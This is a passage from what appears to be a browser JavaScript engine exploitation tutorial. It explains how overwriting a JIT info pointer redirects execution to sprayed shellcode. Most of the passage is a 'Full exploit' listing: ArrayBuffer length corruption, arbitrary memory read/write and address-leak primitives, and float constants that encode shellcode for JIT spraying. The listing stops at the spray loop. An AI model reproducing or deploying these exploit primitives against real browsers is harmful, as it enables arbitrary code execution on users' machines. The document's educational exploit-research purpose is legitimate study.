 With that last problem out of the way, transferring execution to our shellcode is actually quite easy because we can just write to the jitInfo pointer with the location of our shellcode:

```js
write64(jitinfo, shellcode_location);
shellcode();
```

With this, we modified the native code that is executed whenever we call the shellcode function. Remember that before we did define some constants but it was never intended to be code – just (constant) data. By setting the jitInfo pointer forward to these constants we make it code! With this last part being done, we now have a full PoC and can run it to execute commands:

**Full exploit**

```js
// create an ArrayBuffer A and set its length to a large value
aBuf = new ArrayBuffer(80);
aBuf.byteLength = 1000;
aBuf = new BigUint64Array(aBuf)

// create a second ArrayBuffer B to have an adjacent object
bBuf = new ArrayBuffer(80);
bBufTyped = new BigUint64Array(bBuf)

function read64(addr){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    let typedB = new BigUint64Array(bBuf)
    return typedB[0]
}

function write64(addr, value){
    // overwrite metadata, pointer to data
    aBuf[15] = addr
    // access B as a TypedArray to get a 64 bit value back
    let typedB = new BigUint64Array(bBuf)
    // set first element (exactly where the changed data pointer points to)
    typedB[0] = value
}

function addrof(obj){
    // Set a new property on the ArrayBuffer, its pointer will be pointed to by the slots pointer (offset 13)
    bBuf.leak = obj
    // read the slots pointer back
    _slots = aBuf[13]
    // dereference the slots pointer and return it (while masking off any pointer tagging)
    return read64(_slots) & 0xffffffffffffn
}

function shellcode (){
    EGG = 5.40900888e-315;          // 0x41414141 in memory, marker to find
    C01 = -6.828527034422786e-229;  // 0x9090909090909090
    C02 = 6.867659397734779e+246     
    C03 = 7.806615353364766e+184
    C04 = 2.541954188459429e-198
    C05 = 3.2060568060029287e-80
    C06 = 3.4574612453438036e+198
    C07 = 7.57500810708945e-119
    C08 = 1.0802257739008538e+117
    C09 = -6.828527034370483e-229
}

// JIT Spray - will make sure the constants are compiled to native code and create our shellcode
for (let i = 0; i < 100000; i++) {
```